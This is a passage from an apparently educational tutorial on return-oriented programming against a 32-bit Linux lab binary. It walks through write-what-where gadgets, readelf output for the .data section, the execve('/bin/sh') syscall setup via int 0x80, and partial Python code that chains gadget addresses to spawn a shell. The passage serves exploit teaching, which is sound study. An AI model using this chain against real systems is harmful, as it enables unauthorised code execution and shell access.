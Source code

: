 Perfect, so far so good.

Then we have to make `EBX` point to the string "/bin/sh", and `ECX` and `EDX` are null pointers, because we don't need them.

To point to the string "/bin/sh", we need to put it in memory. To do this, we must be able to write where we want. This is a rather fancy gadget suite in general, and it has a very specific name **Write-what-where**.

Here is an example with the gadgets proposed by the binary : 
```
0x0806ed1a : pop edx ; ret
0x080b8056 : pop eax ; ret
0x080546db : mov dword ptr [edx], eax ; ret
```

With these three gadgets, we control the contents of the `EDX` and `EAX` registers, and then we can move the contents of `EAX` to the address pointed to by `EDX`. So we write what we want, where we want it. Perfect!

So we are able to write "/bin/sh" somewhere in memory, for example in .data which does not move despite ASLR.
```
$ readelf -S rop | grep " .data "
  [23] .data             PROGBITS        080ea000 0a1000 000f20 00  WA  0   0 32
```

`.data` has the flag `W` for **W**ritable and is located at address `0x080ea000`.

Finally, we need to find gadgets to control our `EBX` and `ECX` registers (because we already found a gadget for `EDX` during the write-what-where). You have understood the technique, here are two of them:
```
0x080de7ad : pop ecx ; ret
0x080481c9 : pop ebx ; ret
```

Of course, to be able to execute all this, you have to make a call to an `int 0x80` instruction : 
```0
x0806c985 : int 0x80
```

Well that's fine, we now have all the gadgets in hand to be able to perform our ROP. To build the chain, we will proceed as follows :
- Place "/bin/sh" at the beginning of `.data`
- Put null bytes just after, so that the string "/bin/sh" ends with a null character.
- Put the address of "/bin/sh" in `EBX`
- Put `0x00` in `ECX` and `EDX`
- Put 11 (0xb) in `EAX` (syscall number)
- Make a call to `int 0x80`

Here is a python code that prepares the overflow by chaining the gadgets.

```
p =  pack('<I', 0x0806ed1a) 		# pop edx ; ret
p += pack('<I', 0x080ea000) 		# In edx, we put the address of the beginning of .data

p += pack('<I', 0x080b8056) 		# pop eax ; ret
p += '/bin'				            # In eax, we put the string "/bin"

p += pack('<I', 0x080546db) 		# mov dword ptr [edx], eax ; ret | This allows to write "/bin" in .data

p += pack('<I', 0x0806ed1a) 		# pop edx ; ret
p += pack('<I', 0x080ea004) 		# In edx, we put the address of .data + 4 to provide "//sh"

p += pack('<I', 0x080b8056) 		# pop eax ; ret
p += '//sh'				            # We put "//sh" in eax

```